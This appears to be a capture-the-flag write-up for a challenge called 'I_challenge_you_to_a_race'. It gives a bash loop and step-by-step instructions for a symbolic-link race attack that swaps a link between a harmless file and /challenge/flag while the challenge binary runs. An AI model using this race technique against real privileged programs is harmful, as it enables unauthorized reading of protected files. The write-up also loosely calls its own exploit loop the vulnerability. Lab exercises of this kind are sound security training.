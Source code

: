 # Challenge I_challenge_you_to_a_race Writeup

## Vulnerability: Symbolic Link Vulnerability

### Where:
The vulnerability is present in the following code:

```bash
for i in {1..150}; do
    ln -sf /tmp/estudasses/ola.txt pointer
    echo "pointer" | /challenge/challenge &
    ln -sf /challenge/flag pointer
done
```

# Impact:
The code exploits a symbolic link vulnerability. By creating symbolic links to different files before and after running the /challenge/challenge command in the background, it allows an attacker to manipulate file references.

This vulnerability may lead to unauthorized access or manipulation of files and potentially compromise the integrity of the system.

# Note:
The provided code creates symbolic links to /tmp/estudasses/ola.txt and /challenge/flag files, which can have security implications, especially if the /challenge/challenge command operates on the linked files without proper validation.

# Steps to Reproduce:
```bash
# Step 1: Create symbolic link to /tmp/estudasses/ola.txt
ln -sf /tmp/estudasses/ola.txt pointer

# Step 2: Run the /challenge/challenge command in the background with input "pointer"
echo "pointer" | /challenge/challenge &

# Step 3: Create another symbolic link to /challenge/flag
ln -sf /challenge/flag pointer

# Step 4: Repeat the above steps in a loop (150 times in the provided code).

# Step 5: Observe any unexpected behavior or unauthorized access to sensitive files.
